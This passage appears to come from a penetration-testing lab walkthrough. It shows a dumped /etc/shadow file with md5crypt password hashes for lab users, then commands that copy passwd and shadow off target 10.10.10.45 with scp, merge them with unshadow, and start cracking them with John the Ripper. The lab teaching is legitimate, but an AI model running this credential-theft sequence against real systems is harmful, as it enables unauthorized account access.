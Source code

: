 adm:*:14194:0:99999:7:::
lp:*:14194:0:99999:7:::
sync:*:14194:0:99999:7:::
shutdown:*:14194:0:99999:7:::
halt:*:14194:0:99999:7:::
mail:*:14194:0:99999:7:::
news:*:14194:0:99999:7:::
uucp:*:14194:0:99999:7:::
operator:*:14194:0:99999:7:::
games:*:14194:0:99999:7:::
gopher:*:14194:0:99999:7:::
ftp:*:14194:0:99999:7:::
nobody:*:14194:0:99999:7:::
vcsa:!!:14194:0:99999:7:::
rpc:!!:14194:0:99999:7:::
distcache:!!:14194:0:99999:7:::
nscd:!!:14194:0:99999:7:::
tcpdump:!!:14194:0:99999:7:::
dbus:!!:14194:0:99999:7:::
rpm:!!:14194:0:99999:7:::
pulse:!!:14194:0:99999:7:::
polkituser:!!:14194:0:99999:7:::
apache:!!:14194:0:99999:7:::
avahi:!!:14194:0:99999:7:::
openvpn:!!:14194:0:99999:7:::
mailnull:!!:14194:0:99999:7:::
smmsp:!!:14194:0:99999:7:::
rpcuser:!!:14194:0:99999:7:::
nfsnobody:!!:14194:0:99999:7:::
ntp:!!:14194:0:99999:7:::
named:!!:14194:0:99999:7:::
sshd:!!:14194:0:99999:7:::
webalizer:!!:14194:0:99999:7:::
squid:!!:14194:0:99999:7:::
torrent:!!:14194:0:99999:7:::
backuppc:!!:14194:0:99999:7:::
haldaemon:!!:14194:0:99999:7:::
gdm:!!:14194:0:99999:7:::
susan:$1$FELdTs5z$xIw5Y4dbTNWGrZKkc2k8j/:14194:0:99999:7:::
bob:$1$sL29tDS7$OpY5sTjrvxqueH8ZT2Qfa1:14194:0:99999:7:::
mike:$1$sYC.qj62$C0B6DORf.XugmQ09dQkQD1:14194:0:99999:7:::
falken:$1$8kgBlF2S$1nQ0aDcpvJL0Xdjn8zP2y/:14194:0:99999:7:::
</pre>

Copy those files to your local Slingshot host. Open a new terminal window, then copy using `scp`:

<pre>
sec504@slingshot:~$ mkdir 10.10.10.45
sec504@slingshot:~$ cd 10.10.10.45/
sec504@slingshot:~/10.10.10.45$ scp falken@10.10.10.45:/etc/passwd .
falken@10.10.10.45's password: 
passwd                                                                                                      100% 2070     2.0KB/s   00:00    
sec504@slingshot:~/10.10.10.45$ scp falken@10.10.10.45:/etc/shadow .
falken@10.10.10.45's password: 
shadow                                                                                                      100% 1421     1.4KB/s   00:00    
sec504@slingshot:~/10.10.10.45$ unshadow passwd shadow &gt;10.10.10.45.hash
sec504@slingshot:~/10.10.10.45$ john 10.10.10.45.hash 
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 SSE2 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status